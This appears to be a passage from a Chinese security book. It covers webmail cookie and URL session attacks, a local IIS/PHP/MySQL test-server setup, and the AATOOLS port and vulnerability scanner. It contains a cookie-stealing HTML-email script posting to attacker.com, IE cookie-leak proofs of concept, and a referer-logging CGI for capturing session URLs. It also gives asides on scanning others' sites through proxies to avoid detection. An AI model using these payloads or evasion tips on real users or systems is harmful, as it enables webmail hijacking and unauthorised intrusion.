当用户以自己的邮箱账户和密码登录进 Webmail 以后，如果再让用户对每一步操作都输入密码加以确认，就会让人不胜其烦。所以 Webmail 系统有必要进行用户会话跟踪，Webmail 系统用到的会话跟踪技术主要有两种：Cookie 会话跟踪和 URL 会话跟踪。

Cookie 是 Web 服务器保存在用户浏览器上的文本信息，可以包含用户名、特殊 ID、访问次数等任何信息，通常此信息用于标识访问同一 Web 服务器上的不同用户，在浏览器每次访问同一 Web 服务器时会发送过去，用于跟踪特定客户端或浏览器与 Web 服务器进行交互的状态。

Cookie 的类型有两种：持久型和临时型。持久型 Cookie 以文本形式存储在硬盘上，由浏览器存取。使用了持久型 Cookie 会话跟踪的 Webmail 系统有 Hotmail、Yahoo 电邮（可选）等。临时型 Cookie 也称为会话 Cookie，存储在内存中，仅为当前浏览器的对话存储，关闭当前浏览器后会立即消失。ASP、PHP4 等开发程序中用到的 Session 对象就会产生临时型 Cookie。使用了临时型 Cookie 会话跟踪的 Webmail 系统有 FM365、亿邮等。

如果攻击者能够获取用户 Webmail 的 Cookie 信息，那么就能很容易地侵入用户的 Webmail。攻击者如何获取用户 Webmail 的 Cookie 信息呢？如果攻击者在用户的电脑上安装了木马，或者能够从网络线路上对用户进行嗅探侦听，那么获取 Cookie 信息自然不成问题，不过这并不是我们讨论问题的意义所在，因为都能够这样了，又何必大费周折去获取 Cookie 信息，直接获取邮箱密码就是了。

如果 Webmail 系统存在跨站脚本执行漏洞，那么攻击者就能欺骗用户从而轻易地获取 Cookie 信息。虽然众多网站存在此漏洞，但存在此漏洞的 Webmail 系统还是很少见。

含有恶性脚本程序的 HTML 邮件能使攻击者获取 Webmail 的 Cookie 信息。HTML 邮件中的脚本程序先提取当前 Webmail 的 Cookie 信息，然后把它赋值给某个表单元素，再将表单自动提交给攻击者，攻击者从而获得 Cookie 会话信息。下面是一段演示程序：

```html
<body>
<form method="post" action="http://attacker.com/getcookie.cgi" name="myform1">
<input name="session" type="hidden"/>
</form>

<script language="JavaScript">
var cookie=(document.cookie);
alert(cookie); // 这一句用于显示当前cookie信息，当然，攻击者不会这样做。
document.myform1.session.value=cookie;
document.myform1.submit();
</script>
```

getcookie.cgi 是放在攻击者 Web 服务器上的一个 CGI 程序，用于获取表单提交过来的 Cookie 信息，并且做记录或者通知攻击者。当然，攻击者会把 HTML 邮件、getcookie.cgi 程序设计得更隐蔽、更具欺骗性，让用户难以察觉。

通常，浏览器根据 Web 服务器的域名来分别保存 Cookie 信息，并且只会把 Cookie 信息发送给同一域名的 Web 服务器。不过，浏览器的漏洞给攻击者获取不同域名的 Cookie 信息创造了机会，Internet Explorer、Netscape 和 Mozilla 等被广泛使用的浏览器都存在过此类漏洞。下面是几个 Internet Explorer 浏览器（针对 IE5.0、IE5.5 或 6.0）泄漏 Cookie 信息的例子：- （1）HTML 语言中的 object 元素用于在当前页面内嵌入外部对象，但 Internet Explorer 浏览器对 object 元素属性的处理不当会导致任意域的 Cookie 信息被泄漏，演示代码如下：

```html
<object id='data1' data='empty.html' type='text/html'></object>
<script>
var ref=document.getElementById('data1').object;
ref.location.href='http://www.anydomain.com';
setTimeout('alert(ref.cookie)',5000);
</script>
```

- （2）Internet Explorer 浏览器错误处理“about”协议，使得一个精心构造的 URL 请求可能会显示或修改任意域的 Cookie 信息，例如（以下代码在同一行）：

```text
about://www.anydomain.com/<script language=JavaScript>alert(document.cookie);</script>
```

- （3）Internet Explorer 浏览器会误把 URL 中“%20”（空格符的 URL 编码）字符串之前的主机名当做 Cookie 信息所在的域，并且发送出去。假设攻击者有一个域名“attacker.com”，攻击者把它做成泛域名解析，即把“*.attacker.com”指向攻击者 Web 服务器所在的 IP 地址，“attacker.com”下的任何子域名或主机名都会被解析成这个 IP 地址，当用户提交了类似下面这样的 URL 后，浏览器就会把“anydomain.com”域名的 Cookie 信息发送给攻击者：

```text
http://anydomain.com%20.attacker.com/getcookie.cgi
```

如果攻击者要获取 Webmail 的临时型 Cookie 信息，就会在 HTML 邮件中写入相应的代码；在用户浏览邮件时，该代码自动执行，使得攻击者能够获取当前浏览器里的临时 Cookie 信息；也可以把用于获取 Cookie 信息的 URL 发送给用户，诱骗用户打开该 URL，这样攻击者也能获取临时 Cookie 信息。

在攻击者获取 Cookie 信息后，如果 Cookie 信息里含有密码等敏感信息，那么攻击者就能轻易地侵入用户的邮箱。虽然 Hotmail 等 Webmail 系统曾经发生过此类情况，但 Cookie 信息泄漏敏感信息的 Webmail 系统还很少见。

攻击者在获取 Cookie 信息之后，还要让此 Cookie 信息由浏览器来存取，从而与 Webmail 系统建立会话，这样才能侵入用户的 Webmail。如果是持久型 Cookie 信息，攻击者所要做的是把这个信息复制到自己的 Cookie 文件中去，由浏览器存取该 Cookie 信息从而与 Webmail 系统建立会话，不过临时 Cookie 信息存储在内存中，并不容易让浏览器存取。

为了让浏览器存取临时 Cookie 信息，攻击者可以编辑内存中的 Cookie 信息，或者修改公开源代码的浏览器，让浏览器能够编辑 Cookie 信息。不过，这样都不是很简便的方法，简便的方法是使用 Achilles 程序（packetstormsecurity.org 网站有下载）。Achilles 是一个 HTTP 代理服务器，能够截取浏览器和 Web 服务器间的 HTTP 会话信息，并且在代理转发数据之前可以编辑 HTTP 会话以及临时 Cookie 信息。

Webmail 系统应该避免使用持久型 Cookie 会话跟踪，使攻击者在 Cookie 会话攻击上不能轻易得逞。为了防止 Cookie 会话攻击，用户可以采取如下措施以加强安全：

- 1. 设置浏览器的 Cookie 安全级别，阻止所有 Cookie 或者只接受某几个域的 Cookie。
- 2. 使用 Cookie 管理工具，增强系统 Cookie 安全，如 Cookie Pal、Burnt Cookies 等。
- 3. 及时给浏览器打补丁，防止 Cookie 信息泄漏。

Cookie 会话跟踪除了上面提到的安全缺陷外，还存在如下缺点：

- 1. 并不是每个浏览器都支持 Cookie，有些用户为了防止泄露隐私以及从安全性上考虑，可能会禁用浏览器的 Cookie。
- 2. 由于功能限制或者设置有误，代理服务器不能够代理 Cookie，导致通过代理服务器上网的用户不能登录进入以 Cookie 进行会话跟踪的 Webmail。

#### 六、URL 会话攻击

一些 Webmail 系统在客户端不支持 Cookie 时拒绝提供 Webmail 服务，如新浪邮件、搜狐邮件等许多 Webmail 系统，而另一些 Webmail 系统则视用户为上帝，使用 URL 会话跟踪技术来维护与客户端交互的状态，如 163.net、263.net、21cn.com 等。

URL 会话跟踪是把一些标识会话的字符串加在 URL 里面，对于客户端的每一个 HTTP 连接请求，服务端都会把 URL 里的会话标识和它所保存的会话数据关联起来，从而能够区分不同的客户端，以及进行用户会话跟踪。下面是在浏览器的地址栏里看到的一些 Webmail 的 URL，看起来会很长，甚至有些怪：

```text
http://bjweb.163.net/cgi/ldapapp?funcid=main&sid=HAPGfUDusCLAQSlm
http://Webmail.21cn.com/extend/gb/std/usermanu/NV04I6qxMftyKnOcavGDktOmIEvPsb/SignOn.gen
```

在关闭浏览器后，保存在服务器里的会话关联数据并不会立即失效，一段时间内 Webmail 的 URL 仍然有效，他人只要从浏览器的历史记录里找到该 URL，就可以点击进入用户的 Webmail，并不需要任何密码验证。所以，用户在退出 Webmail 时，不应该直接关闭浏览器，应该点击 Webmail 上的“退出”来退出，这样才会清空会话，使 Webmail 的 URL 失效，那些在网吧等公共场所上网的用户尤其要注意这一点。

如果攻击者知道 Webmail 系统的 URL 会话机制，能猜到 Webmail 的会话标识，那么就能找到 Webmail 的 URL，在浏览器地址栏里输入相同的 URL，就能轻易地进入用户的 Webmail。所以，Webmail 系统应该使用较长的、随机的字符串作为会话标识，使攻击者难以猜测。

不过，即使 Webmail 系统的 URL 会话机制再复杂，会话标识再长，对攻击者而言，要想获得用户 Webmail 的 URL，往往就像探囊取物一般容易。

JavaScript 程序中的 window.location、location.href、document.URL、document.location、document.referrer 等对象属性都可以用来获取 Webmail 的 URL，攻击者只要在 HTML 邮件中放入一段脚本代码就可以获取 URL，并且能偷偷地发送给攻击者，类似的代码可以参考“Cookie 会话攻击”一节里的一段演示程序。

HTTP 协议（RFC2616）里规定 HTTP 请求头域“referer”用于指明链接的出处，即指明来自客户端的这个连接请求是从哪个 URL 地址提交过来的。例如，用户点击页面上的某个链接地址后，发出的 referer 域的内容就是当前页面的 URI 地址。CGI 编程中的环境变量“HTTP_REFERER”用于获取 HTTP 请求头域“referer”。下面是一个在 Linux 下用 shell 写的 CGI 程序：

```sh
#!/bin/sh
#set -x
echo Content-type: text/plain
echo
# 写入日志：geturl.log 文件权限要可写
echo "`date` $REMOTE_ADDR $HTTP_REFERER" >> /var/log/geturl.log
# 即时通知攻击者
wall "`date` 收到 Webmail url，请检查日志"
# 返回给客户端的信息，用于迷惑用户
echo "你好！"
```

攻击者把这个 CGI 程序放在自己的 Web 服务器上，然后把该 CGI 程序的 URL 地址以单独一行放在 TXT 邮件里发给用户，URL 地址会自动变成链接地址，受到欺骗的用户点击后，攻击者就获得了用户 Webmail 的 URL。当然攻击者也可以把 CGI 程序的 URL 地址放在 HTML 邮件里作为链接地址让用户来点击，或者就用脚本程序或框架技术使这个 CGI 程序自动运行，或者干脆把这个 CGI 程序的 URL 地址放在 HTML 邮件源代码 img 元素的 src 属性值，虽然显现不出图片，但这个 CGI 程序照样会收到 HTTP 连接请求，从而获得 Webmail 的 URL。

Web 服务器的日志记录也能获取 referer 域的内容，以 Apache 为例，在 httpd.conf 文件中修改或加入如下配置参数：

```apache
LogFormat "%t %h %{Referer}i => %U" referer
CustomLog /usr/local/apache/logs/referer_log referer
```

这样，对 Web 服务器的每一个 HTTP 连接请求的 referer 域的内容都会写到 referer_log 日志文件里去，攻击者只要分析日志文件，就能够知道用户 Webmail 的 URL 了。Webmail 系统如果支持 HTML 邮件的话，总不可能会禁止 HTML 邮件中使用图像，攻击者在发给用户的 HTML 邮件中放入一张 src 地址在自己 Web 服务器上的图片，也就能轻易地获取 Webmail 的 URL。

这样一来，深怀恶意的攻击者花点小钱去做邮件服务商提供的 Webmail 旗帜广告，广告的图片则是放在攻击者的 Web 服务器上，那么攻击者就能每天坐收成千上万用户的 Webmail 了。

浏览器的漏洞和恶意脚本程序导致了 Cookie 信息的泄漏。与 Cookie 信息泄漏不同，URL 会话信息被泄漏，则是完全出在 HTTP 协议上，除非修改 HTTP 协议。虽然 RFC2616 里指出 referer 域是敏感信息（Sensitive Information），建议浏览器提供友好界面让用户能够允许或禁用传输敏感信息域，不过目前尚未有哪一家浏览器提供这样的功能界面。

可见，无论是 Cookie 会话跟踪还是 URL 会话跟踪，都存在着不少的安全问题，所以，Webmail 系统有必要采取措施加强会话安全。

- 1. **灵活使用会话跟踪技术**  
  客户端支持 Cookie 时，使用相对比较安全的临时型 Cookie 会话跟踪机制；否则，使用 URL 会话跟踪，JSP 等开发程序能很容易做到这一点。
- 2. **结合多种会话跟踪技术**  
  同时结合 Cookie、URL 会话跟踪技术进行会话跟踪，大大增加攻击者难度。
- 3. **跟客户端 IP 地址相结合**  
  21cn.com、Qmail 的 SQWebmail 等 Webmail 系统，就是把当前会话与客户端 IP 地址结合在一起来加强安全的。
- 4. **合理设置会话超时时间**  
  在一定时间内客户端没有连接请求，则认为会话超时（timeout）。太短了，给用户带来不便；太长了，给攻击者带来方便。

#### 七、Webmail 其他安全

如果用户在 Webmail 里设置了自动回复，攻击者利用这一点，在另一个邮箱里也设置自动回复，并发一封邮件给用户，那么邮件很快就会塞满用户的邮箱，迫使用户不得不取消自动回复。所以，良好的自动回复策略应该是在一定时间内来自同一邮件地址的第二封邮件不应该被自动回复。

攻击者还会在邮件附件中夹带病毒、木马等恶性程序来攻击用户的电脑，甚至用来窃取 Webmail 密码。所以，对于不明邮件，用户不要奢望那是玫瑰和情书，在对附件进行病毒查杀之前，不要轻易打开它的附件。

为了防止垃圾邮件，Webmail 系统应有良好的反垃圾邮件功能：一是系统级的垃圾邮件过滤，对一些被投诉和列入反垃圾邮件组织黑名单的邮件地址进行过滤；二是用户级的垃圾邮件过滤，使 Webmail 用户可以定制自己的邮件过滤规则，拒绝不受欢迎的邮件，免受垃圾邮件的困扰。

使用一些嗅探监听程序，攻击者甚至不需要很高深的专业知识，就能很轻易地嗅探监听到用户 Webmail 的密码、邮件内容等。有一个叫“密码监听器”的黑客程序，几乎能监听到国内所有免费邮箱的密码。所以，Webmail 系统有必要支持 SSL，对浏览器与服务器之间传输的数据进行加密，防止被嗅探监听。

一些 Webmail 系统支持数字签名和数字加密，在 Webmail 内可以导入基于公钥加密机制（如 CA 认证中心颁发的数字证书）产生的公私密钥对，能有效地保证邮件的保密性、完整性和不可抵赖性。不过，鉴于 Webmail 在其他方面的安全问题，一旦攻击者侵入用户的 Webmail，用户反而得不偿失，甚至会导致私钥的泄露。

Webmail 系统程序上的漏洞也值得关注，如 IMHO Webmail 远程账户劫持漏洞、Basilix Webmail 远程任意文件泄露漏洞、W3Mail Webmail 执行任意命令漏洞等，甚至 21cn.com 都曾有过重要路径泄露漏洞。

如果用户在正确使用 Webmail 后仍然存在安全问题，那么剩下的就是去选择一个好的邮件服务商，或者通过邮件客户端软件来收发邮件。不过，使用 Outlook 等邮件客户端软件又会引发其他的安全问题，例如爱虫、求职信等病毒就是利用 Outlook 的漏洞来扩散传播和危害用户的。

## 8.3 构建一台用于本地调试的多权服务器

这里的所谓多权是指多种解析方式和权限。

现在很多网虫为了得到更优秀的上网性能，纷纷把系统升级到 Windows 2000 Pro or Server。而不少站长经常要调试程序，为了提高效率和速度，更为了省钱，在本地建立了站点，使自己的电脑成为一台支持 ASP+CGI+PHP+ACCESS+MYSQL 的服务器，现在我们就来看看如何实现这些。

我们以 ASP+ACCESS+CGI+PHP+MYSQL 为目的，构建一台用于本地调试的多权服务器，以提高你的工作效率，让你的网站更加出色。本次安装全过程是在 C 盘进行，操作平台是 Windows 2000 Server，下面先准备需要的东西。

- 1. ActivePerl-5.6.1.631-MSWin32-x86.msi（华军有下载）
- 2. PHP-420-WIN32.ZIP（http://www.php.net 有下载）
- 3. mysql-3.23.46a-win.zip（http://www.mysql.com 有下载）

组件的安装过程如下：

### 1. ASP+ACCESS 的支持

由于 Windows 的 IIS 内置了对 ASP+ACCESS 的支持，所以我们的重点是 CGI+PHP+MYSQL。

#### 2. CGI 的支持

由于是自己的计算机，服务器用于本地调试各种代码，所以无须安装 FTP 服务器。先安装 ActivePerl-5.6.1.631-MSWin32-x86.msi，安装很简单，按照提示安装到 C:\Perl 下。打开“Internet 服务管理器”，在默认站点上点右键——>属性进入站点配置对话框，IP 地址选择你现在正在使用的，比如 127.0.0.1。选择“主目录”的标签，在本地路径那里选择系统分区以外的目录，比如 E:\sundic\sangel。下面有个“配置”按钮，进入以后就是“应用程序配置”的对话框，在“应用程序映射”标签里单击“添加”，在扩展名文本框输入“.cgi”，单击浏览按钮，选择文件类型为 *.dll，选择 C:\Perl\bin\perlis.dll，在动作一栏中选“限于”，接着在后面的文本框输入 GET, HEAD, POST, TRACE（注意“,”用半角的）。如图 8-3-1，用同样的方法添加“.pl”。

这样就可以支持 CGI 程序了，下面我们写个最简单的程序来测试一下，打开记事本，写入下面的语句：

```perl
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print "调试成功\n";
```

然后保存为 test.cgi。打开浏览器，输入 http://127.0.0.1/test.cgi，如果成功的话浏览器就输出“调试成功”四个字。但千万不要从文件——>打开那里打开 test.cgi，否则出现的是上面的代码。CGI 不需要什么 CGI-BIN 虚拟目录，任何目录都可以执行，如果需要的话，自己建立一个 CGI-BIN 也不影响运行。

#### 3. PHP 的支持

用解压软件把 PHP-420-WIN32.ZIP 解压到 C:\PHP，然后把 php.ini-dist 复制到 D:\WINNT 下并改名为 Php.ini。把 C:\PHP 下的 php4ts.dll 文件复制到 C:\Winnt\system32 下。这两步不能少，否则运行就会出错。打开“Internet 服务管理器”站点配置对话框，在“ISAPI 筛选器”标签下单击“添加”，在“筛选器名称”中输入“PHP”，“可执行文件”通过浏览选择 C:\PHP\sapi\php4isapi.dll，如图 8-3-2 所示。

按照添加 CGI 的方法选择“主目录”标签→配置→添加，在扩展名的文本框中输入“.php”，可执行文件通过浏览输入“C:\PHP\sapi\php4isapi.dll”。动作选“限于”，文本框中填 GET, HEAD, POST, TRACE。有的程序还是 .php3 的，所以用同样的方法添加“.php3”（不过，如果不需要可以不添加）。如图 8-3-3 所示。


我们继续写一个脚本来测试是否成功支持 PHP。打开记事本，写上下面的语句：

```html
<html>
<body>
<?
phpinfo();
?>
</body>
</html>
```

存到 E:\sundic\sangel，文件名为 test.php，在浏览器的地址栏里输入 127.0.0.1/test.php，就会出现 PHP 的一切信息。如图 8-3-4 所示。

#### 4. 安装 MySQL 数据库

这部分可是重中之重，大家一定要仔细哦，我自己第一次装的时候吃了不少苦，还请教了不少高手。操作时把 mysql 安装在默认的 C:\mysql，否则我们要启动 mysql 服务还要做一番复杂的设置。解压 mysql-3.23.46a-win.zip，然后安装到 C:\mysql。安装完以后，把 C:\mysql\my-example.cnf 复制到 C:\ 下，并改名为 my.cnf，然后用记事本打开，把里面的以下语句：

```ini
#basedir = d:/mysql/
改为
basedir = c:/mysql/
```

然后在命令提示符下，进入 `C:\mysql\bin` 目录，输入  
`C:\mysql\bin\mysqld-nt.exe --install`

如图8-3-5所示。

图8-3-4  
图8-3-5

这样就把 MySQL 这项服务加入服务列表，然后进入管理工具启动 MySQL 服务，这样就安装完毕了。此时的密码是空的，我们写一个脚本测试看看是否连接成功。将下列代码复制到记事本并存为 `mysql.php`。

```php
<?
$HOST="127.0.0.1";        //服务器地址，本机即127.0.0.1
$USER="root";             //用户名，默认root
$PASSWORD="";             //密码，默认为空
$db=@mysql_connect($HOST,$USER,$PASSWORD) or die("无法连接到数据库！");
echo "数据库连接成功！";
?>
```

放到 `E:\sunidc\sangel`，然后在浏览器运行它。好，连接成功了。如图8-3-6所示。这样就可以调试代码了。由于设置密码很麻烦，所以可以先调试好再修改密码传上服务器，或者用 phpMyAdmin 来管理。这里就略过了如图8-3-7所示的步骤。

图8-3-6  
图8-3-7

这样一个多权限服务器就搭建好了，大家可以自由调试自己的代码了。由于是本机测试，所以这里没有提及任何安全配置，这样的环境是漏洞百出的，所以推荐几篇文章，让大家的服务器不仅多功能，还安全。

- 《黑客防线》2002年第3期的《Windows 2000 Server 系统加固不完全指南》
- 《黑客防线》2002年第8期的《用Windows 2000建立安全Web站点》
- 《黑客防线》2002年第7期赠品的《妙改注册表让系统更安全》

请大家还注意一点，如果要上网，最好还是把站点停止掉，因为 Windows 2000 服务器的入侵多数是通过 IIS 来的，所以上网前停止掉，安全系数就更高了。

## 第9章 拒住黑客的利爪

### 9.1 网管攻防利器

Advanced Administrative Tools（又称 AATOOLS）是 G-LOCK 软件公司出品的网络增强管理工具。此工具功能强大、全面，可以成为任何一名网络管理员的好助手。下文对其进行详尽介绍。

### 一、AATOOLS简介

安装好 AATOOLS 后，我们当然先要启动它。首先软件会要求你输入注册码，下一步进入了 AATOOLS 的主界面。整个界面十分简洁，其中最主要的就是 Tools 的工具栏了，也就是第二行的快捷菜单。从左到右依次是 PORT SCANNER（端口扫描器）、PROXY ANALYZER（代理分析器）、CGI ANALYZER（通用网关接口分析器）、EMAIL VERIFIER（EMAIL 验证工具）、LINK ANALYZER（超级连接分析器）、WHOIS（WHOIS 查询工具）、NETWORK STATUS（网络状况）、PROCESS INFO（进程信息）和 SYSTEM INFO（系统信息），共9个小类组成。

### 二、AATOOLS使用指南

我们先从左边第一个快捷方式开始依次进行介绍。

- 1. PORT SCANNER（端口扫描器）

首先点击一下 PORT SCANNER 工具（端口扫描器）的快捷方式，我们就要开始了（如图9-1-1）。在这个工具中，最主要的是如何设置 PORT，也就是端口。这个工具已经附带了几乎所有的已知端口，按一下右上方的 Port Setup 键（见图9-1-2），可以看到，从 1-60000 的已知开放端口都有比较详细的说明（在端口后面的描述栏里面）。通常我们要做的就是选择右上方的 Select All 或者 Deselect All，同时也可以选择左上方的 Port Sets（端口类），其中共有5类端口（NSF、HSF、PROXY PORTS、EVERYTHING、TROJAN），你可以选择试试看。同时这里也是你学习端口功能的一个好地方。最下方的那个 Insert 键是给我们用来自行设定未知端口的。

好，我们试试！按下 INSERT，我们可以发现，刚才灰色的 add/change port info 的文本菜单现在变成高亮显示了，试着输入一下它们没有设置的端口。Port 那里输入 7626，Description 里我们可以这样输入：“木马工具‘冰河’所开的端口”，按 Insert，把滚动条往下拉到 7777（系统已设置的端口），找到了，7626 的端口已经上去了。如果你不喜欢，可以按下面的 Delete 把这个设置删除掉。怎么样，很方便吧。

注意：有一些非常重要的端口它没有设置，比如 3389（Windows 输入法漏洞的端口）、7626（冰河所开的端口）等，大家可以自行设置。

当所有端口设置完毕后，按 OK 返回主界面。

好了，进攻要开始了，我们将以我们自己的网站“异域天空网络安全中心”http://www.collingsu.com 进行测试。

在 HOST NAME 里填入：www.collingsu.com 后按 Lookup，这步是为了 Ping 出网址的 IP，然后按 Add 键，网站的 IP 即添加成功。当然如果你知道一个网站 IP 的话，直接 Paste 到下面的 host name/ips for scan 里就行了。大家可以参考图9-1-1（一般左上方的进程数和连接超时时间可以不用更改，使用默认值即可）。还有一点很重要：如果你要用这个软件搞一些小动作，那么千万不能忘了使用代理服务器，左上方的 use socks proxy 就是，它支持 Socks4 和 Socks5 两种代理。其他几个工具也都支持 Socks 的 Proxy。我们把 PORT sets 设置为 Everything（这样测试最全面），然后按下上方的 Scan 键；激动人心的时刻就要到了。右边的 Results 栏里出现了我们扫描的主机所开的端口（见图9-1-3）。然后……就随便你了。现在你可以把扫描的结果保存下来，按那个 Save，可以存成 `*.txt` 的文件，这样以后也方便调用，只要按 Load 就行了。还有，那个 Stop 旁边的 network PC 按键是用来搜索局域网内部机器的，你不妨自己试试。

AATOOLS 的设置大同小异，只要你熟练掌握了一个工具的设置和使用，其他所有的工具也能基本使用了。

图9-1-1  
图9-1-2

- 2. PROXY ANALYZER（代理验证器）

我们继续，看第二个工具——PROXY ANALYZER（代理验证器）。这个工具感觉上和 PROXY HUNTER 差不多，但是比代理猎手稳定得多了，可能是我的线程设得少的缘故（见图9-1-4）。

一般 SETTING 里不用设置，用默认值即可，当然你也可以用自己的设置。

把搜索到的代理服务器填入 HOST NAME OR IP ADDRESS，选择左边的端口后，点击 Add 就可以了，它会进行初步验证。如果成功的话，下面的那个表格里就会出现我们要验证的 PROXY 了，然后按 START，对，就这么简单。验证以后，所有的参数都会在那个表格中列出。怎么样，比 PROXY HUNTER 详细多了吧。

这个工具同时可以验证 Http 和 Socks 的代理，最下方有 LEGEND 的图式注解，非常直观。

- 3. CGI ANALYZER（通用网关接口分析器）

下面为大家讲解 AATOOLS 中最实用的工具——CGI ANALYZER（通用网关接口分析器），其实叫“漏洞扫描器”来得直观一些。

我们先来看看 CGI SETUP 里如何设置（图9-1-5）：如图所示，和 PORT SCANNER 的 SETTING 设置差不多，也有 Add，也能选择 SET（类）。通常我们在这里选择的应该是 ALL，这样所有的漏洞都难逃你的掌握。当然如果你有新发现的漏洞，也可以自己手动 ADD。同时，AATOOLS 的版本越高，所能测到的漏洞也越多。顺便说一下：由于未注册版本的功能限制，我们现在使用的是 4.00C 版，同时我们还测试了 4.30 的版本，感觉更好，不论是界面还是内容。

设置完毕，开始扫描漏洞。同样，我们以“异域天空网络安全中心”http://www.collingsu.com 为例（见图9-1-6）。

图9-1-5  
图9-1-6

幸好我们的站点还是比较安全的，大多数的 IIS 默认设置都已关闭（有些默认设置非常不安全），即使开放的一些，也都被 FORBIDDEN 了，当然除了那个 GUESTBOOK.CGI 的脚本。应该说那是 ISP 的功劳，但是大多数的网站是没有那么专业的，比如一些企业自行架设的站点，大都不更改默认设置，随便找一个试试吧，不过不要干坏事啊。我们测试了一些站点，好像这个软件对于 Asp 的扫描更全面一些，我们发现了不少网站的 IIS 漏洞，比如 IISadmpwd 没有关闭，等等。鉴于安全考虑，我们就不对这些网站进行公开了，大家可以自己测试一下。毕竟在 NT 下的漏洞要比在 LINUX 下的多得多。还有，别忘了找个 PROXY，否则你要是做坏事的话会被发现的，因为一般的网站上都有 IP 访问记录。

现在大家应该对这个软件有了一个感性的认识了，其实 AATOOLS 的精华就是这三个小工具了。

- 4. EMAIL VERIFIER（EMAIL验证工具）

下面让我们来看看 EMAIL VERIFIER（EMAIL 验证工具）。其实类似的工具有很多，这个功能一般、性能也一般。

好，我们先看看 SETTING。MY GOD! 又是一大片不认识的 E 文，那就算了，不更改了，反正也不需要更改。在 ENTER EMAIL ADDRESS(ONLY) 栏里填入一个 EMAIL 按 ADD。怎么 LOCATION 一下子就知道了（CHINA）？是的，这其实也不是什么高深的学问，它根据的是 `.cn` 的后缀来判断的。不信你试试输入 `.com` 后缀的，怎么样，LOCATION 不是变成 COMMERCIAL 了吗。下面我们就 START。验证后的结果（如图9-1-7）。

其实这个功能也没有什么特别的，就是为了验证你所知道的 EMAIL 是否正确。一个两个 EMAIL 的输入很方便，成千上万个呢？不急，这个工具支持 LOAD（导入）的，你可以自己看看它自带的那个 `ExampleEmail.txt` 文件。

- 5. LINK ANALYZER（超级连接分析器）

我们继续，下面该看看 LINK ANALYZER（超级连接分析器）。非常简单，启动后它会自动搜索你 C: 下的所有 `.URL` 文件，然后按 CONNECT 就可以进行验证了。这里我们就不进行详细介绍了，大家可以参考上面介绍的 EMAIL VERIFIER（EMAIL 验证工具）。

下面一个 WHOIS 查询也简单，只要在 HOST NAME OR IP 里填入你要查询的域名或者该服务器的 IP 地址，然后 START，什么信息都出来了（见图9-1-8）。

图9-1-7  
图9-1-8

- 6. NETWORK STATUS（网络状况）

这个工具非常实用。简单的界面，只要设置是否为 AUTO REFRESH 和刷新时间就可以了。我们建议：如果你的机器还过得去（MMX200 以上），请选择 AUTO REFRESH，你会知道选择了以后对你的帮助有多大。

看看我们提供的图解（见图9-1-9），这是一幅我们在联网时的抓图。

图9-1-9

从左到右依次是：PROTOCOL（所使用协议）、LOCAL IP（本地 IP 地址）、LOCAL PORT（本地所开端口）、REMOTE IP（远程 IP）、REMOTE PORT（远程所开端口）、STATUS（状况）。是不是很直观。这里要说明的是：4000 是 OICQ 默认的固定端口（如果安装了 QQ 的插件那就另当别论），192.168.0.1 是我们的机器在局域网内的地址，61.169.71.2 就是我们在网上的 IP 地址了。这样我们就可以看到和我们本地机器建立连接的远程主机的 IP 地址和所开端口。知道怎么查 OICQ 上陌生人的 IP 地址了吧？一般我们可以检测 4000 那个端口所对应的远程 IP。毕竟现在 QQ 地址插件都是用来显示好友 IP 的，但是你是不会去轰炸自己的好友的啊。其实这个功能和 Windows 的 NETSTAT 命令差不多，但是方便不少。有兴趣的朋友也可以在 MS-DOS 方式下，对 NETSTAT.EXE 进行测试。还有必要说明一下的就是 STATUS 里的那几个 E 文描述，否则有可能困扰大家。“LISTEN”表示监听中；“TIME_WAIT”表示正在连接；“ESTABLISHED”表示连接已建立。好了，对于 NETWORK STATUS 的介绍就到这里。

- 7. PROCESS INFO（进程信息）

下面我们该介绍 PROCESS INFO（进程信息），也就是所谓的进程管理器。

在这个工具中，我们可以清楚地看到 CPU 当前的进程情况，包括 CPU 当前使用进程、CPU 使用情况、进程所调用的模块、文件路径、CPU ID、模块 ID 等。如果发现错误，或者非法进程的话，我们可以利用它的选项“TERMINATE PROCESS（终止进程）和 DELETE MODULE（删除模块）”来进行管理（见图9-1-10）。

- 8. SYSTEM INFO（系统信息）

最后让我们来看看 SYSTEM INFO（系统信息）工具。这个工具可以显示你机器几乎所有的相关信息：WORK STATION、OPERATING SYSTEM、CPU、MEMORY、DISPLAY、DRIVERS、ENGINES、PRINTERS、DEVICES、NETWORK、MEDIA、APM。真是应有尽有了（见图9-1-11）。

#### 三、结束语

好了，这么一个优秀的工具软件 AATOOLS 终于介绍完了。古语说得好：“水能载舟，亦能覆舟”。希望大家能妥善使用这个软件，尽量为中国的网络安全工作多出点力，这是我们介绍这个软件的初衷。目前 AATOOLS 的最新版本为 4.30，需要注册，不注册的话有 30 天的时间限制和一些功能上的使用限制。

### 9.2 网络讯法官——局域网实时管理工具

说道局域网管理，很多公司单位的网管、网吧的老板等等都有自己的一套办法。拿最基本的让哪台机器能上网、哪台不能上网来说，就我所知的方法有如下几种：

- 1. 一是给局域网内每台机器设置静态 IP，通过内部的代理服务器（或路由）连接 Internet。管理的时候则把某台机器对应的某个静态 IP 在代理服务器上进行 IP 限制（哪些 IP 能上网，哪些不能），但不能防止用户自己动手设置静态 IP，同时又会带来 IP 冲突的问题。通过 DHCP 动态分配 IP 地址的方式，虽然动态分配 IP 省时，通过 DHCP 把 IP 租期改成永久，做成类似静态分配 IP，且没有 IP 冲突的问题，但还是不能解决用户自己设置静态 IP 的问题，很难做到针对某台机器的上网控制。说到底这是一种被动的管理，很大程度需要用户的自觉或纪律上的制约。
- 2. 二是进行局域网的逻辑划分，分成一个个逻辑独立的虚网（VLAN）。但是这种方法一是相对技术和硬件要求比较高，仅仅用作控制哪台机器可以上网、哪台不能上网很是浪费；二是控制范围的调整相对繁琐，距离只要在管理机上就能实时管理整个网络上网限制的目标还很远，所以也不适合“花最少的钱干最要紧的事”的标准。

考虑到以上两种方式都不很适合我们限制上网的需要，就由上面两种方式演化出了我下面介绍的方法。

结合 DHCP 设置的方便、控制的低效与虚网管理的主动高效，现在向你推荐我要介绍的工具 LANLawman。它实现对局域网中的每个网卡进行管理，也就是根据每个网卡的 MAC 地址进行控制，实现了我们主动控制每台机器的上网权限，同时也实现了通过软件就能方便地在管理机实时管理整个网络的愿望。下面来看这个工具的使用。试用管理机环境：Windows 98 + PIII 1G，IP：172.31.31.179；子网网段：172.31.31.1～172.31.31.254；子网掩码：255.255.255.0；联网主机：120 台以上，分别装有 Windows 98 或 Windows 2000；网络架构：交换机级联，通过代理服务器上网。

安装运行就不必多说，安装好以后也不用重启。

